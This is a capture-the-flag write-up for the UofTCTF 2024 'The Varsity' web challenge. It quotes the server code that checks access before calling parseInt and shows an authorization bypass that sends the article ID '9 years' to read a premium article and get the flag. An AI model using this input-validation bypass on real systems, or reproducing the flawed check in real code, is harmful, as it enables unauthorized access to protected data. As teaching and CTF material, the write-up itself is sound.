


We are provided with a webpage which asks for us to register and an optional voucher, which I keep in mind for later.


Once registered (no voucher) we can see an article reading site.



Trying to read Article 10 results in an error due to our role.



Looking inside the source code for article reading, article 10 seems to contain the flag.

```js
const articles = [
  {
    "title": "Pioneering the Future: UofT's Revolutionary AI Research",
    "content": "The University of Toronto continues to lead groundbreaking research in artificial intelligence, with its latest project aiming to develop algorithms that can understand emotions in text. Spearheaded by a team of international students, this initiative promises to revolutionize how machines interact with human language."
  },
  ...
  {
    title: "UofT Hosts its 2nd Inaugural Capture the Flag Event",
    content: "Your flag is: " + FLAG,
  },
];
```

And this is the code that parses the authentication to read articles:

```js
app.post("/article", (req, res) => {
  const token = req.cookies.token;

  if (token) {
    try {
      const decoded = jwt.verify(token, JWT_SECRET);

      let issue = req.body.issue;

      if (req.body.issue < 0) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      if (decoded.subscription !== "premium" && issue >= 9) {
        return res
          .status(403)
          .json({ message: "Please subscribe to access this issue" });
      }

      issue = parseInt(issue);

      if (Number.isNaN(issue) || issue > articles.length - 1) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      return res.json(articles[issue]);
    } catch (error) {
      res.clearCookie("token");
      return res.status(403).json({ message: "Not Authenticated" });
    }
  } else {
    return res.status(403).json({ message: "Not Authenticated" });
  }
});
```

The part that catches my eye is the vaidation of the `issue` variable **before** the `parseInt`.

Looking into the documentation of `parseInt` we can see it converts the following values:

```js
parseInt("10"); => 10
parseInt("10.00"); => 10
parseInt("10.33"); => 10
parseInt("34 45 66"); => 34
parseInt(" 60 "); => 60
parseInt("40 years"); => 40
parseInt("He was 40"); => NaN
```

So, we could give a vlue like `9 years` as our article ID and read the article without permissions.

Looking at the default request for Article 10:

```
POST /article HTTP/1.1
Host: uoftctf-the-varsity.chals.io
Content-Type: application/json
Content-Length: 13
Cookie: token=...

{"issue":"9"}
```

I change `"9"` to `"9 years"` and I get the article back:

```json
{
	"title":"UofT Hosts its 2nd Inaugural Capture the Flag Event",
	"content":"Your flag is: uoftctf{w31rd_b3h4v10r_0f_parseInt()!}"
}
```

There we go!

Flag: `uoftctf{w31rd_b3h4v10r_0f_parseInt()!}`

**Files:** [the_varsity.zip](https://files.seall.dev/ctfs/uoftctf2024/the-varsity/the_varsity.zip)